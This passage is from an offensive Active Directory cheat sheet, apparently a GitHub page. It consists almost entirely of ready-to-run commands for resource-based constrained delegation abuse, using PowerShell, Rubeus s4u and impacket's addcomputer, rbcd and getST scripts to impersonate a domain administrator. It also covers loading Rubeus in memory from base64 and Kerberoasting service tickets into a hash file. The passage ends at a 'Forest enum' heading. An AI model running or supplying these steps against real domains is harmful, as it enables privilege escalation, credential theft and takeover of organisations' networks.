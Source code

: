 Update msDS-AllowedToActOnBehalfOfOtherIdentity of ‘server’ object to newly created machine

```powershell
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
Get-DomainComputer -Identity server | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Use computer account to generate ticket

```plaintext
.\Rubeus.exe s4u /user:myComputer$ /rc4:x /impersonateuser:administrator /msdsspn:CIFS/dc01.domain.com /ptt
```

Add computer using impacket

```plaintext
python3 /usr/share/doc/python3-impacket/examples/addcomputer.py -k -no-pass -computer-name 'rbcd$' -computer-pass 'Password12345' -dc-ip 1.1.1.1 DOMAIN/user -dc-host dc.domain.com
```

Update msDS-AllowedToActOnBehalfOfOtherIdentity of ‘server’ object to newly created machine using impacket

```plaintext
python3 rbcd.py -delegate-to 'HOST$' -delegate-from 'rbcd$' -action write -k -no-pass DOMAIN/user -debug
```

Get service ticket using impacket

```plaintext
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn CIFS/HOST.DOMAIN.COM -impersonate 'Administrator' -dc-ip 1.1.1.1 'DOMAIN/rbcd$:Password12345'
```

## Kerberoasting

PowerShell load assembly Rubeus from base64

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt

$a = Get-Content .\rubeus.txt
$assem = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($a))
```

Export all available tickets

```plaintext
[Rubeus.Program]::Main("kerberoast /outfile:C:\temp\hashes.txt".Split())
```

## Forest enum
